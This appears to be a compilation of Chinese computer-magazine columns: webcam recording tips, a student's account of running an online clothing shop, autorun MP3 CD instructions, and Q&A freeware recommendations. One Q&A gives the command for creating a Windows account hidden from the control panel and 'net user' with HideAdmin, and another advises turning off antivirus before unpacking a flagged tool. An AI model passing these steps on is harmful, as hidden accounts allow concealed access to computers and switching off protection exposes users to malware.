如果想用摄像头录制自己的视频片断，SupervisionCam的视频录制功能就不能满足需要了，因







为它的帧率过低，这里笔者推荐给大家一款可以用摄像头录像的好软件——双子星录像，下载地址为 http://sconline.down.net/dovrsetup121.exe 。运行软件后，单击工具栏中的“大小”按钮设置好录像分辨率，单击“来源”按钮设置好画面效果，再单击“压缩”按钮选择视频压缩编码，同样建议选择“Microsoft Windows Media”编码，然后再单击“声音”按钮设置声音质量，单击“视频”按钮设置录像质量，注意这里“录像帧频”要设置为“30”，最后返回主界面单击“录像”按钮，设置好保存路径文件名，单击“开始”按钮即可，按Esc键即可结束录像。

# 你知道吗？

让手机变PC摄像头
手机已经慢慢步入百万像素时代，电脑摄像头的主流却依然还是停留在30万，虽然也有100万像素的产品，但是价格一直很高。如果能够充分利用手机的摄像头，当做视频聊天的工具就好了。其实，一款名为MobileHomeCam的软件可以让采用微软Windows Mobile系统的智能手机作为电脑的摄像头使用，还支持蓝牙功能。如果你拥有SmartPhone手机或者PocketPC手机，就可以利用它作为你的电脑摄像头了，不必再花钱买摄像头了。下载地址：http://www.valil.com/mhc/index.html
（软件DIY）## 跟购物狂学开网上小店

### 故事篇

灵感源自购物欲
男朋友说我是一个天生的购物狂，事实也正如此。在服装的选购方面，我自认为有独到见解。

当我刚刚踏入大学的校园，就开始频繁流连于各大商场女性柜台，根本无法抗拒诸如某商场满“100返30”之类的诱惑，于是邀上一群有着相同癖好的姐妹们出发！生命不息，购物不止嘛，有时候会为了一件衣服魂牵梦绕，有时会为了一件美丽的靴子搭配一个漂亮的裙子，甚至为了一个别针，而且只是一个很小很小的别针，配齐从头到脚的一身！为此，在成都的各大商场前仆后继三个日夜，最后累得不得不休息一天以调养生息。

不久，问题出现了，用一句现在很流行的话:姐妹们很生气，后果很严重！寝室那小小的衣柜，实在难以负荷我频繁的超大规模的采购行动，当我嬉皮笑脸地打算侵占别人的地盘时，遭受了巨大的阻力：“买衣服的时候想什么了”、“绝对不能纵容你，要不然整个寝室都将被你淹没，你干脆去卖衣服好了”。对啊，我可以根据自己的偏好，将服装搭配好后卖掉啊！买衣服的一时英雄气概，现在已经让我差不多变成乞丐了。卖衣服只是为了再买新的，OH，YEAH！

在我萌生了这个念头的第一时间，就把它告诉了妈妈，因为要得到妈妈的支持，我当时可是连电脑都没有呢。
“妈妈，我觉得自己现在长大了，不该继续无所事事的浪费你的钱了。”
“嗯”。妈妈的冷漠，表示了她对我的行为的怀疑。
“妈妈，我特不想靠家里，我想自己养活自己。”
“得，不用。你好好读你的书吧。”
“可是，可是你都还没听过我的想法呢，妈妈，您这不是谋杀我的想法吗？”。此时的语气，绝对的楚楚可怜。
“你说吧！”语气中透露着极大的不耐烦，当然还有一无可奈何的妥协的意味。就是这点妥协，让我鼓足了勇气。
晕，这什么跟什么啊。
我用了接近一个晚上的时间，也没能让妈妈了解在网上开店到底是个什么样的概念。但她却同意了给我买个电脑，在这里我必须再一次感谢我的妈妈，在她对电子商务还这么懵懂的时候，给予了这么大的支持和信任。

尽管我连P S是什么都不知道，尽管我面对着巨大的舆论压力，我还是决定把店开起来，先！比较开心的是，网上开店可是比现实中开店省去了不少的麻烦，10天以后，我就拥有了自己在易趣的第一家店子一娃娃爱天下。本来是想叫天生购物狂的，但已经有MM叫这个了，这也充分说明了，像我这样自己就是购物狂的店主实在不是少数。

### 第一次卖出东西的喜悦

相信所有卖家都不会忘了自己的第一个买家，就像忘不了自己的初恋情人一样。那一天接到买家的电话，说看中了我的一件衣服，我尝试着用很冷静的语气，装着很老练的样子跟她说话，放下电话立刻大喊三声“我真的卖出去东西了，哈哈”，笑声绕梁三日。我相信，如果我的买家在这个时候跟我说，让我送给她这件衣服，我也是会毫不犹豫地答应的。

### 得到认可的喜悦

网上的MM害怕买到的东东不好看，其实我比她们还担心。这种担心甚至超过了卖出东东的喜悦，所以我在易趣、淘宝最大的开心就是在买家收到东西后，对我的宝贝赞不绝口，我会比自己买到N好的宝贝还高兴，也是有了她们的鼓励，才能继续下去。

### 结交到朋友的喜悦

卖了成千上万个东东，也就认识了成千上万个MM（偶尔零星的男顾客，因为你们的数量实在有限，把你们忽略不计了），结交到好朋友也就不奇怪了。有一次因为生病，早就应该发的包裹推迟了好几天，我以为MM们会大发雷霆，但是交易中也有温情，我得到的更多的是宽容和关心。又因为大家共同的经历，有着共同的语言，讲开店的艰辛，被恶拍的无奈，但在这个平台上，每时每刻都有温暖的存在。

### 心得篇

常言道，有风云的地方就有江湖，有江湖的地方就有恩怨。偶（流行词汇，和“我”同义）在易趣、淘宝闯荡三年，虽然不敢以资深卖家自居，但经验还是小有一些，不吐不快啊。大卖家都有自己的经验，我就不罗嗦了，就给才起步的小卖家和打算起步的同仁们说道说道吧（嘿嘿，有点倚老卖老的感觉）！

- 1. 选择免费的还是收费的，这是个问题
别以为免费就是好的，别觉得收费就是黑暗的，从选择了去经营一个网络店铺开始，你就是一个小小的商人了，没有风险投资，是不可能有高回报的，这是商业的定律。
万事开头难，新手起步，每花出去一分钱，都有点底气不足的后怕。免费对小卖家的吸引力可想而知，优势也显而易见，成本低压力小。但是凡是都有两面性，免费让系统充斥了泡沫繁荣，淘宝里充斥了大量的重复商品，大量浪费了系统资源。更要命的是，买家的浏览变得如同海底捞针，成交量相对就会低一些。易趣收费的平台，让人们在经营的时候形成了竞争的环境，在经营的时候绞尽脑汁制定策略，商品重复的现象大大减少。但是现在易趣的收费比以前贵了很多，如果小卖家开始的时候经营不善，很容易亏损。但亏损会让你在经营的时候不断因为压力而提高自身的素质来应对，让花出去的每一分钱都成为鞭策你前进的动力。
个人建议：一个新卖家，要做的是合理地分析自身的条件，看你是要做一个怎样的卖家，如果就是当成兼职，或者沉醉于做一个小卖家的话，那淘宝是比较合适的选择。如果你把电子商务作为自己事业的一个起点，那么易趣就是最佳选择了。千万不要在免费中沉醉，在收费中困惑了。

- 2. 信用度不够，咋办？
电子商务发展的最大的阻力就是诚信的问题，这点对小卖家尤其致命。没有好的信用度，谁敢跟你买东西呢？同样的道理，假如你做为一个买家，一个信用1000的大卖家，卖着200元一条的裙子，而一个信用只有3的小卖家，卖着180元一条的裙子。而他们的品牌、尺寸、介绍等说的都是同一个商品。那么我想请问，你敢买谁的商品？你会买谁的商品呢？如果是我，我当然选择大卖家！虽然比人家贵了整整20元！但是我买的安心！这个时候自己一定不要灰心，好好经营你的信用度，每多一个信用，你以后的路都会更容易。
个人建议：可以找几个便宜点的东西，（或者自己闲置的东西）一元起拍，比较容易卖出，慢慢累计你的信用度，什么东西都不可能急于求成的。凡事都会有个过渡阶段，等你度过了这个难关，那么成功就属于你！

- 3. 要成交，巧用推荐位
推荐位是一个卖家成交量最关键的因素，原因很简单，你图片再好看，价钱再低，如果没人能看见，那也是白搭。买了推荐位，可以更好地促进大家对你商品的了解以及提高商品的浏览率，从而提高成交率。或许有的小卖家会觉得自己的商品好，自然会来客人。错了！只有买到好的推荐位，才可能有更多的人来看你的商品。
个人建议：我在这里不推荐小卖家买推荐位！原因很简单，易趣的推荐位太贵了，小卖家实在难以承受，而且就算你买了推荐位，基本上也很少人会买你的东西，最多也就看看而已！白白浪费了推荐位的钱。除非你有过硬的价格，有超级便宜的进货渠道，或者说你要亏本卖也行！选择在淘宝的卖家，可要合理的利用推荐位了，一定要把自己最便宜、最好的宝贝放在推荐位里。

- 4. 商品定价有说道
建议小卖家在开始的时候，不要选择卖价格太高的商品。因为本身信用度就不是很高，价格再高就更无法成交了。还有就是应该懂得销售技巧。比如：同一个商品，同一个信用度，你卖100元的商品，人家卖98元，那么请问，你更愿意买谁的商品？站在买家的角度，买家一定会买98元的！为什么？很简单，差2元！有时候，2元可以给你带来更大的利润空间！
个人建议：把你所有价钱是整数的商品都降1元或2元。

- 5. 图片设计很关键
网上交易，看不到图片，买家就是通过图片来判断你的商品好不好，符不符合她的需要。所以图片不是一个单纯的图片，她是你商品的窗口，直接面对你销售的物品。网络购物其实就是存在这样的一个差异。明明看见的图片不怎么样，拿到手的其实却非常漂亮。明明图片看起来好漂亮，拿到手的就是和图片差好多！（我的一个差评就是这样的）或许是我把图片拍的太美了，那个买家给了我一个差，我觉得很郁闷！但是，我知道问题大概是出在哪里，是图片。
个人建议：不要用淘宝和易趣的图片处理。那个处理出来的效果实在是让人不敢恭维！如果你不会PHOTOSHOP，那就去学吧！没有人是生来就会的，我也是当了店主之后才学的。如果想长期发展的卖家，可以考虑买一个那种专门的摄影棚，简单的小摄影棚是要200多，有几个简单的背景布料和专业的灯，价钱不贵，照出来的效果却非常好，可以弥补图片前期做的不好的缺点。

- 6. 有问必答提高购买率
一个人，对你的商品有兴趣，他才会发问，没有人会那么无聊的随便发问。能不能够及时回答顾客提出的问题，代表着你成交的成功率大小。有的买家可能会说：是不是正品啊，是不是新货啊，是不是二手的啊！怎么同样的商品你卖的就贵的多啊？你看了之后狂气愤！我明明卖的就是全新的嘛！哼！居然这样问，我删了你的留言，懒得回答你！你这么一删，就把你的钱给删了！顾客会有这样的疑问，不是他们的错，很有可能就是你没把商品的介绍写清楚，顾客才会这样发问的。
个人建议：不要随意删除顾客给你的留言，即使他的问题让你很气愤。认真对待每个顾客的留言，因为它是潜在的购买力哦！

- 7. 主动联系买家，成交后的关键
主动热情地联系买家，很多买家在拍下商品后，心理依然存在疑虑，不是很相信你。这时候一个电话或者一封成交信就是一颗定心丸。如果你等着买家来联系你，抱歉，很难！
个人建议：不要总是推脱没有时间而不主动联系买家！请你告诉自己：“发一封信而已，几秒钟的时间，就可以赚钱咯！”

- 8. 卖东西，感情比技巧更重要
东西卖完了，是不是你和买家之间就没有关系了！绝不是！她第一次买了你的商品，证明了你的商品对她有吸引力，如果她收到商品后，很满意的话，第二次的合作即将到来！
个人建议：搞一个易趣买家的群，或者易趣买家专用QQ，让买家与卖家之间，促进交流和感情。花一点点的时间，与你的买家培养感情，就是建立在售后服务上了。如果能在交易的时候，给你的买家一个意外的小礼物，她会给你更大的惊喜也说不好哦！

- 9. 都做到了，哦了(编者：流行语，意思是OK)。
恭喜你，等着收钱吧！

## 全自动播放MP3光盘就这么简单

小云是个音乐迷，平时下载了不少MP3歌曲，于是她决定将这些MP3刻录到光盘上，以节约硬盘的空间。她忽然想，要是这些MP3光盘一插入光驱中就能自动播放，那该多好啊！更进一步，要是用光盘自带的软件来自动播放光盘中的歌曲，还不用担心在其他电脑上听歌时没有播放软件了。她的想法能实现吗？当然没问题，下面就给大家介绍几种MP3光盘自动播放的方法。

### 实例1:千千静听打造自播放音乐光盘



图1 将千千静听安装文件夹I:\Program Files\TTPlayer\中的所有文件都复制到空白文件夹D:\MP3下。这里的盘符I和D，要视你自己硬盘上的实际盘符而定，下同。

将要刻录的MP3歌曲以及相应的歌词文件也都复制到D:\MP3文件夹中。



图2 双击D:\MP3文件夹中的TTPlayer.exe文件启动千千静听，单击“播放文件”按钮，将D:\MP3下所有MP3歌曲加入到“默认”列表中。



图3 单击千千静听左上角图标，从主菜单中单击“千千选项”命令，打开选项窗口。



图4 点选左侧“播放”，再在右侧选中“程序启动后自动播放”，单击“全部保存”按钮后退出千千静听。

```
[AutoRun]
open=TTPlayer.exe
```

最后将D:\MP3文件夹中的所有文件都刻录到光盘根目录上，一张自动播放的MP3光盘就出炉了。借鉴本刊今年第22期上的《聆听天籁之音，我用千千静听》一文，可以让千千静听更具个性化，比如换一个好看的界面，同步显示歌词等。

### 实例2:小鬼当家也玩MP3自动播放

实现MP3播放的技术门槛并不是很高，这就是为什么网上会有那么多的MP3播放软件。所以，在为MP3音乐光盘选择播放器时，小巧及使用方便就成了首选条件。下面要给大家推荐的这款软件，大小只有91KB左右（可以说是微不足道了），并可以自动制作播放列表，非常好用。

| 属性 | 值 |
|------|----|
| 软件版本 | 3.4.55 |
| 软件大小 | 91 KB |
| 软件授权 | 免费软件 |
| 适用平台 | Windows 98/2000/XP |
| 下载地址 | http://www.newhua.com/cfan/200523/mp3autorun.zip |

第三步：因为Mp3 Autorun已经自带有Autorun.inf文件，所以直接将该文件夹下的所有文件刻录到光盘上，一个自动播放MP3音乐光盘就新鲜出炉了。

> 小提示
> 让歌声随不同心情起舞
> 除上面所介绍的基本功能外，Mp3 Autorun还有更酷的玩法：

- 1. 首先将MP3歌曲按歌手、专辑、风格或其他你喜欢的方法来分类，保存到不同文件夹下。比如笔者就创建了三个子文件夹：超级女声、经典老歌、网络流行。
- 2. 在每个子文件夹中，我分别复制了一张漂亮的图片（可以是BMP或JPG格式），并将图片文件名改成了“frt.jpg”。
- 3. 设置好后再启动Mp3 Autorun，会发现右上角的窗口内多了三个小圆形按钮(随子文件夹的多少而改变)，点击按钮时，就会自动切换并播放相应文件夹中的歌曲，而且左侧会显示出不同的音乐封面(其实就是我们放置在文件夹内的“frt.jpg”图片)，够酷吧！

## 第十二期

### MSN Messenger 收费内容批量免费下:

问:我试用了第9期介绍的“MSN桃源助手”，下载了MSN Messenger动态头像，请问还有没有其他收费内容可以下载呢？

答:第9期介绍的“MSN桃源助手”的确不错，但在用它下载时，每个项目都要点击后再下载，比较麻烦。这里再为你介绍一款可以批量下载MSN Messenger中收费的传情动漫、表情、背景图片、显示头像的软件——MSN Content Installer。

| 属性 | 值 |
|------|----|
| 软件版本 | 1.0 |
| 软件大小 | 200KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 2000/XP |
| 下载地址 | http://www.newhua.com/cfan/200512/MsnContentInstaller.rar |

### 隐藏账号的添加:HideAdmin

问:我想在电脑上建立一个隐藏登录账号，请问用什么软件可以完成呢？

答:你可以试试HideAdmin，这是一款命令行模式软件，它可以对系统中的账号进行隐藏，别人在控制面板中或是使用net user命令都无法看到这个账号。
使用这个程序时，你需要先建立一个结尾为$的账号，如cfan$，再将该账号添加至相应的用户组。接着在命令提示符窗口中使用HideAdmin，格式为HideAdmin 用户名 密码，如HideAdmin cfan$ 123，就可完成该用户名的隐藏了。

| 属性 | 值 |
|------|----|
| 软件版本 | N/A |
| 软件大小 | 18KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 2000/XP |
| 下载地址 | http://www.newhua.com/cfan/200512/hideadmin.rar |

### 快速删除系统中的账号:Guest 删除大师

问:我系统中有很多账号，请问用什么软件可以快速将它们删除呢？

答:你可以试试使用“Guest删除大师”，这款软件不仅可以删除系统中的账号，而且还可以删除Administrator及Guest账号，并且用HideAdmin建立的隐藏账号同样可以在这里看到。
下载软件后，在解压缩前，需要先用Administrator账号登录，然后再关闭病毒防火墙（部分杀毒软件会被认为是软件包含病毒文件）。
运行软件，点击“显示”按钮，就可以看到系统中的所有账号，选中后，点击“删除”即可（有时需要点击多次）。

| 属性 | 值 |
|------|----|
| 软件版本 | 1.5 |
| 软件大小 | 125KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 2000/XP/2003 |
| 下载地址 | http://www.newhua.com/cfan/200512/guest.rar |

### 轻松搞定CS(反恐精英)中文输入:CSMate

问:我想玩CS时使用中文，请问有什么软件可以实现吗？

### 输入身份证号其实不用太复杂

贵刊今年第22期《数字格式自定义 Excel更好用》一文所介绍的方法，虽然可以输入长数字，但是它本质上还是数字，经常会出现意外，比如单元格太窄的时候，数字变成“#”号，数字后面莫名其妙补“0”等。最安全的做法则是将单元格变成“文本”类型。
第一步：右击准备输入身份证号的单元格（也可多选后再右击），选择“设置单元格格式”；
第二步：在打开的对话框中点选“数字”选项卡中的“文本”类型，“确定”后返回，输入身份证号码即可。
（北京 行者）

## 让过长的表格变个样:Excel多排表工具

问:有时我需要将一个只有两三列，但却有许多行的电子表格进行打印，如果直接打印既浪费了纸张又不美观，请问有没有很好的解决方法？

答:要打印多列表格，通常的做法是将表格后面的内容剪切后，采用增加列数，减少行数的方法来节约纸张，同时方便阅读。这种工作以前都是要手工操作的，而现在有一个更方便的方法，那就是使用“多排表工具”来完成。

“多排表工具”是用Excel VBA开发的，通过加载宏来实现相关功能，它可以自动检测表格的行列数，直接安装软件后，就会在Excel的工具菜单上多出“多排表工具”项。执行“工具→多排表工具→制作多排表”，设定每页的行列数及排数，如果需要保留原表，请选中“新增工作表”，确定后，就可以得到一个美观的表格了。(海容)

软件版本:4.0
软件大小:266KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200512/dpgj.rar

## 神奇的Ctrl+A照片轻松做:Picture Baby

问:我看到很多论坛上别人的签名照按Ctrl+A后会变成另外一张图片，请问这是如何制作的呢？

答:本刊以前已经介绍过这种照片的制作方法，但你必须会使用Photoshop或其他照片编辑软件，制作过程比较复杂。不过现在已经有人专门开发了软件，让你轻松完成制作。

运行软件后，按照向导，选择好两张照片，然后设置好输出文件夹，即可完成制作了。

软件版本:1.0
软件大小:180KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://nj.onlinedown.net/soft/33921.htm

## 第十三期

## 模拟Windows XP的全程安装:Windows XP Setup Simulator

问:我的好朋友想学习Windows XP的安装，请问有什么软件可以帮助他吗？

答:可以让你的朋友试用一下Windows XP Setup Simulator，这是一款全程模拟Windows XP安装的软件，而且使用起来非常简单，只要将程序安装到任意目录后，运行Windows Xp Setup.exe，就可以开始模拟Windows XP的安装了。虽然安装界面是英文，但安装方法基本相同，所以特别将这款软件推荐给大家。

软件版本:1.0
软件大小:1261KB
软件性质:免费软件
适用平台:Windows 2000/XP
下载地址:http://nj.onlinedown.net/soft/39405.htm

## 关机前也能运行程序:LAST CHANCE

问:因为工作关系，我需要在每次关机前运行一个备份程序，请问用什么软件来完成比较好呢？

答:很多朋友关机前需要运行一些如删除临时文件或备份文件的操作，但关闭电脑时经常容易忘记，这时还要再次打开电脑，删除后再关闭。遇到这种问题，推荐使用LAST CHANCE。

运行软件后，打开软件窗口，点击“Run on shutdown”(当关闭时运行)标签下的“Add”按钮，分别填好Description(描述)、Command(命令)、Parameters(参数)及“Working directory”(工作目录)，点击“Test”测试，无误后，点击“OK”即可。这样只要软件在后台运行，关机时就会运行设置好的命令了。

如果需要进行资源复制等操作，可在“Run on resource availability”标签中进行设置。

软件版本:1.03
软件大小:877KB
软件性质:免费软件
适用平台:Windows 2000/XP
下载地址:http://209.95.106.186/public/lchance.exe

## 删除的文件还能找回:Fundelete

问:我比较马虎，平时经常误删文件，请问有没有好办法可以随时恢复被我删除的文件呢？

答:要恢复被删除的文件，建议使用Fundelcte，与其他具有恢复被删除文件功能的软件相比，它最大的特色就在于它与系统中的回收站紧密结合，不管是通过回收站删除的文件，还是通过其他程序或命令行模式下的方法，都可通过它进行恢复。

软件安装完成，重启系统就会在后台运行，当需要恢复时，先运行软件，然后选择好恢复的文件，点击“Undelete”按钮进行恢复。

软件版本:2.02
软件大小:872KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.sysinternals.com/files/fundelete.exe

## 将Access转为Excel表格:AccessToExcel

问:为了方便管理，我公司网站后台使用了Access制作的MDB数据库，现在经理让我将其中的几个表格导出为Excel表格，以方便其他部门使用，请问应该怎么做呢？

答:需要将MDB数据库中某个或一些表格转换为Excel表格是不少办公人员都会遇到的问题，以前我遇到这个问题时都是使用AccessToExcel，现在也将它推荐给你。

打开软件后，点击“数据库操作”标签下的“选择数据库”，打开数据库。单击“获取数据表”按钮，在“数据表名称列表”下选择好要导出的表格，现在就可点击“获取字段列表→浏览数据”按钮对数据进行整理。最后，再使用“导出数据”标签下的“选择导出文件”，设置好Excel表格导出的位置后点击“导出”即可。

软件版本:1.3
软件大小:1109KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.skycn.com/soft/845.html

## 用连连看背单词:博乐连连看背单词

问:请问有没有可以让我轻轻松松就能背单词的软件呢？

答:现在最火的游戏就是连连看，于是就有人就制作了结合了连连看及背单词的小游戏。

游戏的玩法与其他连连看游戏相似，只是除了要求图案相同外，还需要注意，消除的两个方块中，一个词汇要为英文，另一个要为中文。当两个方块消除时，窗口中间还会再次显示该单词，同时还会念出单词读音，以加深记忆。而且这款软件每周定期升级数据库，只要登录http://www.boloo.com.cn.就可以下载到最新的单词包。

软件版本:0.11
软件大小:3484KB
软件性质:免费软件
适用平台:Windows 2000/XP
下载地址:http://boloo.nease.net/wordlk.exe

## 扩展名批量巧更改:ExtConvert

问:有没有能同时对多个扩展名同时修改的软件呢?比如一次性将JPGN修改为JPG，将RAA修改为RA等。

答:现在虽然有很多更名软件，但批量更改扩展名的软件还很少，即便可以进行批量更改的软件，大多也只能一次修改一种扩展名，如果需要同时修改多种扩展名，那么只有使用这里推荐的ExtConvert了。由于这款软件使用简单，所以对不会DOS命令而需要修改扩展名的菜鸟来说，也非常有用。

进入软件，在“选择待处理文件所在目录”设置好处理目录，接着在“转换前扩展名”及“转换后扩展名”下的文本框中输入好扩展名，用“添加”按钮将其一一添加，注意转换前后的扩展名是按照排列顺序一一对应的，最后点击“确定”按钮即可。

软件版本:1.01
软件大小:380KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.tourplat.com/bluesoft/down/extconvert_1_01.zip

## 第十四期

## 制作手机看的漫画书:比特铃手机漫画书制作工具(JPicBook)

问:最近我刚刚买了新手机，它具有运行Java程序功能，请问我能不能用它来看漫画呢？

答:现在越来越多的手机支持Java程序，用手机看漫画书也渐渐流行起来。于是在网上共享自己制作好的漫画书文件。看久了别人制作的，当然也想亲自一试身手，下面就来教你如何制作自己的漫画书。

先根据手机屏幕，用Photoshop将图片转换为适当尺寸(要去除上下两条提示按钮)。之后打开JPicBook，选择菜单中的“文件→属性设置”，根据屏幕大小设置好尺寸，再通过菜单中的“文件→导入图片”将漫画导入，回到主界面后，用“上移”、“下移”按钮调整照片顺序，最后，选择“下载路径”，填好“漫画书名”，点击“生成”按钮即可。

软件版本:1.01
软件大小:902 KB
软件性质:免费软件
适用平台:Windows 2000/XP
下载地址:http://nj.onlinedown.net/soft/39945.htm

## 快速提取多种文件中的文本:文档批量提取文本

问:我有很多Excel、Word文件，其中Word文档还用了不少文本框，请问我怎么才能将## 如何将这些文件中的文本部分提取出来？

答：在日常工作中，有时的确会需要将很多不同格式的文件转换为纯文本文件。遇到这个问题，推荐使用“文档批量提取文本”。这款软件支持PDF、HTM、DOC、PPT、XLS、HLM、RTF等格式，在使用前，需要确保已经安装Office及Acrobat Reader。打开软件，在“存放路径”中填好转换后文本文件的保存位置，点击“转换”按钮，选择好转换的文件，完成后，就可以在“存放路径”中的目录下找到转换后的文本文件了。

- 软件版本：4.0
- 软件大小：384KB
- 软件性质：共享软件（未注册版一次只能转换一个文件）
- 适用平台：Windows 2000/XP
- 下载地址：http://www.onlinedown.net/soft/30571.htm

## 批量替换DOC文件中的指定内容：WordPipe

问：因为公司搬家，公司里所有用Word制作的公文模板中的地址、电话都需要修改，请问有没有可以自动完成这个工作的软件？

答：要完成你所说的批量修改文字的目的，可以使用专门批量替换DOC文件中文字的WordPipe。打开软件后先点击“Skip Evaluation Key→Yes”（不输入序列号→是的）按钮，进入软件主界面。点击“Files to process”（要处理的文件），在“Scan for files”（扫描文件）下指定好所有公文模板保存的目录；点击“Replacements”（替换）标签，在“Using these values”（使用这些变量）中的“Find what”（找什么）及“Replace with”（替换为）列中分别输入好内容，最后点击“Replace”按钮即可。

- 软件版本：4.6.2
- 软件大小：1252KB
- 软件性质：共享软件（未注册版可使用30天，一次只能转20个文件）
- 适用平台：Windows 2000/XP
- 下载地址：http://www.onlinedown.net/soft/25246.htm

## 网络电视终结者：PPLive

问：我喜欢看足球，但又经常加班，我想在网上看，可是很多网络电视不是收费了，就是链接失效，或是速度太慢了，请问用什么软件可以解决这个问题呢？

答：以前就有采用BT方式的Coolstreaming，现在又出现一款使用BT技术的网络电视——PPLive。它可以观看更多电视频道。由于只是很少的数据量，所以使用的数据都载入在内存中，对硬盘基本无伤害。

使用软件前，确认已经安装好了Windows Media Player及RealPlayer。打开软件后，PPLive会在系统托盘内产生图标。右击该图标选择菜单中的“配置”，在“配置”窗口中的“asf播放路径”及“rm播放路径”中分别设置好Windows Media Player及RealPlayer的两款软件的路径。然后再次右击系统托盘图标，选择“频道列表”，这时会打开网络浏览器，选择需要观看的频道。这时就会打开相应的播放器，开始播放电视了。

- 软件版本：1.06
- 软件大小：680KB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP
- 下载地址：http://www.pplive.com/download.shtml

## 进程管理好帮手：ECQ超级进程王

问：我用了CFan介绍的IceSword，感觉不太直观，有没有更好的进程管理软件呢？

答：IceSword功能强大，但它仅适合于高手使用，对于一般菜鸟，不太容易上手。所以为大家介绍一款不错的进程管理软件——ECQ超级进程王。这款软件有很多不错功能，比如可以一次性关闭多个进程，关闭Winlogon等系统进程。打开软件后，就可以看到系统中所有进程，点击进程后，就会弹出该进程的提示。点击工具栏上的“进程性能”按钮，可以查看每个进程的内存、CPU占用值；点击“网络进程”按钮，可以显示出所有连接到网上的进程，并显示出端口号。另外，“ECQ超级进程王”还可以作为系统监视程序隐藏在后台，每当有程序运行，软件就会自动弹出警报，让用户进行处理。

- 软件版本：5.2
- 软件大小：1.5MB
- 软件性质：免费软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://www.newhua.com/cfan/200514/pdh.rar

## 第十五期

## 漂亮又强大的提醒薄：雪狐提醒薄（RemindBook）

问：我刚刚工作，总是爱丢三落四的，受到了领导的批评，于是想找一款提醒薄软件，请问有没有比较不错的软件推荐呢？

答：如果你的要求不高，使用QQ的网络提醒薄功能就可以了，方法也很简单，在QQ面板中点击“菜单→会员功能→网络备忘”即可。当你有更多需求时，推荐使用“雪狐提醒薄”，它的功能非常强大，而且界面很漂亮。

软件安装后，要进行“新建用户向导”的设置，连续点击“下一步”就可完成。之后就会在屏幕上显示一个漂亮的时钟，右击它，可以添加“新提醒”，可以修改界面，要是你觉得它妨碍了你的操作，可以在右键菜单中选择“嵌入桌面”及“鼠标穿透”（此功能需要重启）。

打开软件主窗口，在工具栏上点击“新提醒”按钮，打开“新建提醒”窗口，在这里也充分体现了“雪狐提醒薄”的强大之处，“提醒”、“循环设置”及“高级动作设置”三个标签下，可以进行各种各样的提醒设置，这里可以设置提醒的内容、提醒的循环及循环结束的日期、提醒的形式等。

点击“工具栏”上的“万年历”或“提醒列表”按钮，可以用不同形式的方法新建、查看、编辑提醒。

- 软件版本：3.14
- 软件大小：4660KB
- 软件性质：共享软件（仅能保存15条提醒记录）
- 适用平台：Windows 2000/XP
- 下载地址：http://nj.onlinedown.net/soft/2469.htm

## 体验做“上帝”：Google Earth

问：我听说Google推出了地图搜索服务，请问真的是这样吗？

答：Google不仅推出了地图搜索服务，还推出了名为Google Earth的软件。使用它时，你可以像“上帝”一样俯瞰整个地球。而且它还结合了驾车指南（但仅限于部分地区）的强大功能，通过这项服务，你除了可以欣赏全球的风景外，还可以找到行车路线，同时了解驾车全程所需要的时间。

进入软件后，主界面左上侧的位置可以输入要查询的国家、省市或地区，比如输入China或Beijing等等，就可以快速找到所需要的位置了。使用窗口下面的按钮，可以旋转地图，放大或缩小地图的显示，在最大分辨率的地图中，我们还可以看到行驶在公路上的汽车。

点击窗口左上角的“Directions”，就可以进入驾车指南界面了，输入好目的地，Google就会帮你找到最佳的行车路线，并显示出到达的时间及途经的各个城市或地区了。

- 软件版本：3.0.0336 Beta
- 软件大小：10MB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP
- 下载地址：http://www.newhua.com/cfan/200515/GoogleEarth.exe

## 保护系统不受侵害：注册表监视器

问：我试用了《电脑爱好者》以前介绍过的System Safety Monitor及WinPatrol，但软件都是英文的，我希望找一款中文版的，可以监视注册表的软件，请问有没有呢？

答：System Safety Monitor及WinPatrol都是不错的免费监视注册表软件，但前者有使用时间限制，后者的免费版本有一定功能上的限制。除了这两款软件外，国内的杀毒软件也大多具备注册表监视功能。

如果需要一款免费的注册表监视软件，可以试试这里介绍的“注册表监视器”。

将软件下载，并解压缩至指定的目录。运行“注册表监视器1.2测试版.exe”，软件就会自动运行，同时会在系统托盘产生图标，并且默认在每次开机后自启动。双击托盘图标，打开软件主界面，这里有三个标签，“启动监视”用于监视注册表项，“进程监视”用于监视系统进程，比较特别的是第三个“文件监视”标签，它用于监视整个系统分区，除白名单中指定的文件夹外，系统托盘的其他文件夹均不能添加新文件及文件夹。白名单的设置需要用“记事本”打开软件所在目录下的wfilter.dat，按照里面已有的格式直接添加。另外，对于注册表的监视，用户可以通过“记事本”修改软件目录下的“USERSET.INI”自行升级，该文件可以添加不允许存在的键值，或不允许修改的注册表键值，参考该文件中的实例，即可完成添加。

- 软件版本：1.2测试版
- 软件大小：240KB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP
- 下载地址：http://www.newhua.com/cfan/200515/zcbjs.rar

## 控制闪存盘的使用：佳好U盘锁

问：我的电脑没有接入网络，也没有安装杀毒软件。由于电脑上也没有光驱，所以一般使用闪存盘或移动硬盘进行数据交换，我能保证自己移动设备中的数据无毒，但不能保证别人，因此，我想限制他人随便使用闪存盘及移动硬盘，请问有什么办法吗？

答：你可以试试“佳好U盘锁”，这款软件专门用于锁定“闪存盘”，使用起来非常简单，打开软件后，点击“禁止使用U盘和移动硬盘”，重启后，系统就无法使用移动设备了。当你需要使用时，只要点击“允许使用U盘和移动硬盘”，再重启一次即可。如果担心别人随意修改设置，可以使用“设置使用密码”按钮，为软件设置密码。

- 软件版本：050628
- 软件大小：483KB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP
- 下载地址：http://www.onlinedown.net/soft/40609.htm

## 节省有限的网络空间：Access数据库压缩机

问：前段时间我租用了一块网络空间，建立了自己的主页及论坛，全部使用Access数据库，过了一段后，发现数据库变得很大，请问有什么办法可以让数据库变小，以便节省有限的空间呢？

